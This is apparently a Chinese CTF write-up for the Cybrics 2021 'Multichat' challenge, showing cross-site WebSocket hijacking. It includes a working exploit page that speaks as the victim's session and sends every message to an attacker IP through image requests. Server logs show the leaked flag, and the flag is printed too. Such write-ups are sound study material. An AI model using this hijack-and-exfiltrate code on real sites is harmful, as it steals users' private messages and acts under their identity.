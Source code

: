 ```yaml
---
layout: post
title: Cybrics 2021 web wp
date: 2021-07-30 09:56 +0800
last_modified_at: 2021-07-22 09:56:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

## 0x01 Multichat

关键词：Websocket劫持，服务器日志查看

大致是一个基于WebSocket实现的在线聊天室，通过输入房间号连接进入Websocket聊天室。而最后的flag是通过support界面中的寻求support让拥有tech support的服务器去访问我们精心设计好的网页，而我们设计的网页则可以伪装tech support的身份向admin发送消息从而获得flag。

（当然最后因为学艺不精最终没有解出，是最终借鉴了Sndav的exp完成的复现。）

而在赛后复现的时候，出现了一直验证码不正确的情况，经过排查后知道需要挂代理才可以验证成功= =。

下面给出exp（借鉴了Sndav哥哥的exp）：

```
<script>
    function appendLog(msg){
        document.write(`<img src=http://110.40.143.221/index.php?a=${escape(msg)}></img>`);
    }
    ws=new WebSocket("ws://multichat-cybrics2021.ctf.su/ws");
    ws.onclose=function (evt){
        var item ="";
        if(evt.code===1003){
            item=`Status:${evt.reason}`;
        }else{
            item="Connection closed.";
        }
        appendLog(item);
    };
    ws.onopen=function(evt){
        appendLog("Connented");
        ws.send("Hey, i forgot the flag. Can you remind me?")
    };
    ws.onmessage=function(evt){
        appendLog(evt.data)
    };
</script>
```

其中将exp挂载在vps上就可以，而index.php可以是任意界面，仅为了便于观察服务器访问记录。

![image-20210730104331777](https://raw.githubusercontent.com/Heart-1ess/Heart_1ess-s-CTF-Note/master/blogs/assets/Cybrics1.png)

最终在服务器log中获取到flag：

```
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /favicon.ico HTTP/1.1" 404 493 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Connented HTTP/1.1" 200 215 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Sure%2C%20dude.%20The%20flag%20is%20cybrics%7BPwn3d_CR055_51t3_W3850CK3t_h1jACK1n9%7D HTTP/1.1" 200 215 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
161.35.75.1 - - [30/Jul/2021:09:52:51 +0800] "GET /index.php?a=Hey%2C%20i%20forgot%20the%20flag.%20Can%20you%20remind%20me%3F HTTP/1.1" 200 216 "http://110.40.143.221/exp.html" "Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0"
```

获取到flag为：

```
cybrics{Pwn3d_CR055_51t3_W3850CK3t_h1jACK1n9}
```

